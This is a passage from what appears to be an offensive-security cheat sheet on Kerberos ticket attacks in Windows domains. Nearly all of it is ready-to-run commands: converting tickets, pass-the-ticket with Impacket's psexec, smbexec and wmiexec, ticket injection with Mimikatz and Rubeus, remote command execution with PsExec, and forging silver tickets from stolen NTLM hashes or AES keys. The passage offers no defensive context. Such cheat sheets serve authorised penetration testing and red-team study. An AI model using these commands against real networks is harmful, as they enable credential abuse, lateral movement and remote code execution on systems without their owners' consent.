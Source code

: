```text
# ccache (Linux), kirbi (Windows from mimi/Rubeus) 
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```text
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```text
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```text
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```text
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Silver ticket

> Build a TGS with Service key

### Linux \(external\)

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```text
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
